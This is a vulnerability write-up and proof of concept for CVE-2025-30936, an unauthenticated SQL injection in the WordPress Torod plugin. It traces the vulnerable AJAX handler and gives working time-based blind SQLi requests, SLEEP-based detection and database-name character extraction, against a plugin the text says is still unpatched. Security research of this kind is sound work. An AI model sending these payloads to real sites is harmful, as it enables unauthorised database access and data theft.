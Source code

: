 # CVE-2025-30936 Analysis & POC


---

The vulnerability occurs in the **Torod** plugin for WordPress. This could allow attackers to directly interact with your database, including but not limited to stealing information.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Torod**: v1.9

---

## Analysis

The core cause is that the application directly inserts data from a **POST** request into an SQL query without proper input validation or control mechanisms.

### Vulnerable Sink

This CVE has no patch available, so we cannot use a **diff tool** to compare the vulnerable and fixed versions.

> In WordPress, for SQLi to occur, the application must interact with the database through the global variable `$wpdb`. We can search for this keyword in the plugin directory to locate the sink.

![Search sink](search_sink.png "Locate the sink in code")

👉 The data from `$_POST['country_id']` is directly inserted into the SQL query without proper validation. Using `sanitize_text_field()` only escapes the string, not fully sanitizing it. Therefore, the SQL Injection vulnerability can occur.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it works?

The vulnerability lies in the `get_regions_and_cities` function of the `ajaxyk` class within the **inc/ajaxyk.php** file. To determine where it’s called, we search for the keyword `get_regions_and_cities` within the plugin directory.

![Search 1](search_1.png "Find the get_regions_and_cities function")

👉 `get_regions_and_cities` is registered as a callback for two action hooks via the `add_action` function in the `ajaxyk` constructor.

* `wp_ajax_get_regions_and_cities`

  * Written in the format `wp_ajax_{$action}`
  * Requires user authentication

* `wp_ajax_nopriv_get_regions_and_cities`

  * Written in the format `wp_ajax_nopriv_{$action}`
  * Does not require authentication

Since this is an **unauthenticated** vulnerability, we only focus on the `wp_ajax_nopriv_get_regions_and_cities` hook.

Thus, when a **POST** request is sent to `/wp-admin/admin-ajax.php` with parameters:

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* The `get_regions_and_cities` callback is triggered.
* `country_id` is taken directly from the request and injected into the SQL query.
* The query executes with the malicious payload.

---

## Exploit

### Detecting SQLi

Send a **POST request** containing the SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

The resulting query becomes:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](time_resp.png "Response time result")

👉 Based on the response time => the payload works.

**Techniques usable when the table is empty:**

* **UNION**: Since it does not depend on existing data in the table, but requires knowing the number of columns.
* **Subquery**:

  * **Subquery in WHERE clause**: MySQL may optimize and skip the subquery if the result can be determined early. If the table has no data, MySQL might not execute `SLEEP()`.
  * **Subquery in FROM clause**: The subquery is treated as a temporary table. MySQL must execute it first to build the temp table before executing the main query.

![SQL Execution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL execution order")

### Get the First Letter of Database Name

The prerequisite to **dump all data** is to retrieve at least one character of the database name. Once that is achieved, the rest can be enumerated.

Send a request with the **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first character of the **database name**, and `IF()` triggers `SLEEP(5)` if that character is `0x77` ('w').

We use the hex encoding `0x77` for `w` because `country_id` is taken from a **POST** request, which is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) in WordPress and by `sanitize_text_field`.

👉 Based on response time => the first character is confirmed to be `w`.

---

## Conclusion

The **CVE-2025-30936** vulnerability in the **WordPress Torod** plugin (version ≤ 1.9) stems from directly inserting user input into an SQL query without proper validation, leading to a classic SQL Injection flaw.

No official patch has been released for this vulnerability yet.

**Key takeaways**:

* Always validate and sanitize user input properly.
* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Keep plugins up-to-date and perform regular security assessments to avoid being targeted.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)

---

